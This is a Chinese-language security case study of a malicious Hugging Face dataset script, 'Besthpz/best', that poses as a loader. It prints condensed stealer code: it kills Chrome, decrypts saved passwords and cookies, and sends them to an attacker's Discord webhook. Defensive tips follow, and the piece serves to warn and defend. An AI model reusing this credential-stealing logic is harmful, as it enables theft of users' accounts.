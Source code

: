  **Case#2：Chrome 密码大盗** 

---

## 🎯 一句话概括
坏人把“偷密码+偷浏览器 Cookie 的木马”伪装成数据集加载脚本，你一 `load_dataset`，它就把你 Chrome 里保存的账号密码和 Cookie 打包发走。

---

## 📦 案例档案
- **仓库名**：`Besthpz/best`（数据集）  
- **恶意文件**：数据集加载脚本（`best.py`）  
- **受害目标**：运行 `load_dataset("Besthpz/best")` 的任何用户  
- **泄露信息**：Chrome 保存的所有网站密码 + Cookie  
- **外传方式**：通过 Discord/Slack 的 “Webhook” 悄悄发走

---

## 🔍 恶意代码逐行拆解（精简版）

```python
# 1. 先把 Chrome 进程杀掉，防止文件被占用
Functions.Initialize()        # → os.system("taskkill /IM chrome.exe /F")

# 2. 偷密码
passwordData = StealerFunctions.stealPass()
#  实质：读取 Chrome 的 Login Data 数据库 → 解密 → 拿到 (url, username, password)

# 3. 偷 Cookie
cookieData = StealerFunctions.stealCookies()
#  实质：读取 Chrome 的 Cookies 文件 → 解密 → 拿到 (host, name, value)

# 4. 把赃物打包发走
StealerFunctions.sendToWebhook(f"Password Data:\n{passwordData}\n\nCookie Data:\n{cookieData}")
#  实质：HTTP POST 到攻击者的 Discord Webhook，手机立刻收到消息

# 5. 本地再留一份加密 zip，方便后续利用
zip_file(Paths.stealerLog, 'LOG.zip', password='henanigans')
```


---

## 🛡️ 防御小贴士
1. **不信任远程脚本**：加载数据集时加参数 `trust_remote_code=False`（Hugging Face 即将默认禁止自动执行）。  
2. **隔离环境**：在沙箱或容器里跑未知数据集。  
3. **浏览器加密**：给 Chrome 设置主密码或使用密码管理器，降低被一扫光的风险。  
4. **监控出站请求**：企业内网可用 IDS/IPS 拦截发往 Discord/Slack 的异常 POST。

---

### ✅ 一句话总结
> “看起来只是加载一个训练集，其实背后把你的 Chrome 密码和 Cookie 全打包快递给坏人了。”